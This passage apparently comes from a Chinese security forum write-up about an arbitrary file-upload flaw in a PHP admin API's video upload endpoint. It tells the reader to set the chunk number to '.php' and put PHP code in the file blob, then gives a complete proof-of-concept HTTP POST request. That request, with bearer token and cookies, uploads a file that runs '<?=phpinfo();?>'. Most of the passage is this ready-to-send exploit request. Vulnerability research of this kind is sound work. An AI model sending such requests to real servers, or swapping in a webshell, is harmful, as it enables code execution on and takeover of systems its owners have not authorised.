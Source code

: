 ![document_image_rId65.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-bc9147ff199bb2c844fd998522632f174a19cbdd.png)

修改`chunkNumber`参数为`.php`，修改`blob`参数为PHP代码：`<?=phpinfo();?>`

![document_image_rId66.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-e3c5fb188597fef979270ebb98794fb69cc39240.png)

POC数据包：

```php
POST /adminapi/file/video_upload?XDEBUG_SESSION_START=13429 HTTP/1.1
Host: localhost:45600
Content-Length: 842
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBCTWThi2iCHWlO8M
Authori-zation: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiIxZDlmMjExMGZlOTgzM2U1MTQ4MmQyZjdkMTFmZjFlNiIsImlzcyI6ImxvY2FsaG9zdDo0NTYwMCIsImF1ZCI6ImxvY2FsaG9zdDo0NTYwMCIsImlhdCI6MTY5NDA1NjkyMCwibmJmIjoxNjk0MDU2OTIwLCJleHAiOjE2OTY2NDg5MjAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.6gzs6MXyxnHOEckxP4ejuoNJxLpMcT3MdyLRPBAkJ8k
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:45600
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:45600/admin/cms/article/add_article
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: cb_lang=zh-cn; PHPSESSID=23b220209fa9cd4879a5173dc74c2bba; uuid=1; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiIxZDlmMjExMGZlOTgzM2U1MTQ4MmQyZjdkMTFmZjFlNiIsImlzcyI6ImxvY2FsaG9zdDo0NTYwMCIsImF1ZCI6ImxvY2FsaG9zdDo0NTYwMCIsImlhdCI6MTY5NDA1NjkyMCwibmJmIjoxNjk0MDU2OTIwLCJleHAiOjE2OTY2NDg5MjAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.6gzs6MXyxnHOEckxP4ejuoNJxLpMcT3MdyLRPBAkJ8k; expires_time=1696648920; WS_ADMIN_URL=ws://localhost:45600/notice; WS_CHAT_URL=ws://localhost:45600/msg;XDEBUG_SESSION_START=13429;
Connection: close

------WebKitFormBoundaryBCTWThi2iCHWlO8M
Content-Disposition: form-data; name="chunkNumber"

.php
------WebKitFormBoundaryBCTWThi2iCHWlO8M
Content-Disposition: form-data; name="chunkSize"

3145728
------WebKitFormBoundaryBCTWThi2iCHWlO8M
Content-Disposition: form-data; name="currentChunkSize"

52
------WebKitFormBoundaryBCTWThi2iCHWlO8M
Content-Disposition: form-data; name="file"; filename="blob"
Content-Type: application/octet-stream

<?=phpinfo();?>
------WebKitFormBoundaryBCTWThi2iCHWlO8M
Content-Disposition: form-data; name="filename"

token.mp4
------WebKitFormBoundaryBCTWThi2iCHWlO8M
Content-Disposition: form-data; name="totalChunks"

1
------WebKitFormBoundaryBCTWThi2iCHWlO8M
```